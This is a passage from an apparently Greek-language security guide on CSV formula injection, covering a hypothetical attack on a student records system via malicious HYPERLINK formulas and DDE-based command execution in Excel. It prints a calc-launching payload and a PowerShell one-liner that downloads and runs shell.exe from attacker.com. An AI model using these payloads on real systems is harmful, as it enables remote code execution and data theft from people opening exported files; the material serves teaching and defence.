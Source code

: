 **Το παρακάτω παράδειγμα είναι πολύ χρήσιμο για την εξαγωγή περιεχομένου από το τελικό φύλλο Excel και για την αποστολή αιτημάτων σε αυθαίρετες τοποθεσίες. Αλλά απαιτεί τον χρήστη να κάνει κλικ στον σύνδεσμο (και να αποδεχτεί τις προειδοποιήσεις).**

Το παρακάτω παράδειγμα προήλθε από [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Φανταστείτε μια παραβίαση ασφαλείας σε ένα σύστημα Διαχείρισης Εγγραφών Φοιτητών που εκμεταλλεύεται μια επίθεση εισροής CSV. Η κύρια πρόθεση του επιτιθέμενου είναι να διακινδυνεύσει το σύστημα που χρησιμοποιούν οι καθηγητές για τη διαχείριση των λεπτομερειών των φοιτητών. Η μέθοδος περιλαμβάνει την εισροή από τον επιτιθέμενο ενός κακόβουλου φορτίου στην εφαρμογή, συγκεκριμένα με την εισαγωγή επιβλαβών τύπων σε πεδία που προορίζονται για τις λεπτομέρειες των φοιτητών. Η επίθεση εξελίσσεται ως εξής:

1. **Εισροή Κακόβουλου Φορτίου:**
* Ο επιτιθέμενος υποβάλλει ένα φόρμα λεπτομερειών φοιτητή αλλά περιλαμβάνει μια φόρμουλα που χρησιμοποιείται συχνά σε υπολογιστικά φύλλα (π.χ., `=HYPERLINK("<κακόβουλος_σύνδεσμος>","Κάντε κλικ εδώ")`).
* Αυτή η φόρμουλα σχεδιάστηκε για να δημιουργήσει έναν υπερσύνδεσμο, αλλά δείχνει προς έναν κακόβουλο διακοντρολαρισμένο από τον επιτιθέμενο διακομιστή.
2. **Εξαγωγή Καταστραφέντων Δεδομένων:**
* Οι καθηγητές, χωρίς να γνωρίζουν την παραβίαση, χρησιμοποιούν τη λειτουργικότητα της εφαρμογής για να εξάγουν τα δεδομένα σε ένα αρχείο CSV.
* Το αρχείο CSV, όταν ανοίγεται, παραμένει με το κακόβουλο φορτίο. Αυτό το φορτίο εμφανίζεται ως ένας κλικάρισμα υπερσυνδέσμου στο υπολογιστικό φύλλο.
3. **Ενεργοποίηση της Επίθεσης:**
* Ένας καθηγητής κάνει κλικ στον υπερσύνδεσμο, πιστεύοντας ότι αυτός αποτελεί νόμιμο μέρος των λεπτομερειών του φοιτητή.
* Μετά το κλικ, ευαίσθητα δεδομένα (πιθανώς περιλαμβάνοντας λεπτομέρειες από το υπολογιστικό φύλλο ή του υπολογιστή του καθηγητή) μεταδίδονται στον διακοντρολαρισμένο από τον επιτιθέμενο διακομιστή.
4. **Καταγραφή των Δεδομένων:**
* Ο διακοντρολαρισμένος από τον επιτιθέμενο διακομιστής λαμβάνει και καταγράφει τα ευαίσθητα δεδομένα που στάλθηκαν από τον υπολογιστή του καθηγητή.
* Ο επιτιθέμενος μπορεί στη συνέχεια να χρησιμοποιήσει αυτά τα δεδομένα για διάφορους κακόβουλους σκοπούς, διακινδυνεύοντας περαιτέρω την ιδιωτικότητα και την ασφάλεια των φοιτητών και του ιδρύματος.

### RCE

**Ελέγξτε το** [**αρχικό άρθρο**](https://notsosecure.com/data-exfiltration-formula-injection-part1) **για περισσότερες λεπτομέρειες.**

Σε συγκεκριμένες ρυθμίσεις ή παλαιότερες εκδόσεις του Excel, μια λειτουργία που ονομάζεται Δυναμική Ανταλλαγή Δεδομένων (DDE) μπορεί να εκμεταλλευτεί για την εκτέλεση αυθαίρετων εντολών. Για να το επιτύχετε αυτό, πρέπει να ενεργοποιηθούν οι ακόλουθες ρυθμίσεις:

* Πλοηγηθείτε σε Αρχείο → Επιλογές → Κέντρο Εμπιστοσύνης → Ρυθμίσεις Κέντρου Εμπιστοσύνης → Εξωτερικό Περιεχόμενο, και ενεργοποιήστε την **Εκκίνηση Διακομιστή Δυναμικής Ανταλλαγής Δεδομένων**.

Όταν ανοίγεται ένα υπολογιστικό φύλλο με το κακόβουλο φορτίο (και αν ο χρήστης αποδέχεται τις προειδοποιήσεις), το φορτίο εκτελείται. Για παράδειγμα, για να εκκινήσετε την εφαρμογή αριθμομηχανή, το φορτίο θα ήταν:
```markdown
`=cmd|' /C calc'!xxx`
```
Μπορούν επίσης να εκτελεστούν επιπλέον εντολές, όπως η λήψη και εκτέλεση ενός αρχείου χρησιμοποιώντας το PowerShell:
```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```
### Ενσωμάτωση Τοπικού Αρχείου (LFI) στο LibreOffice Calc
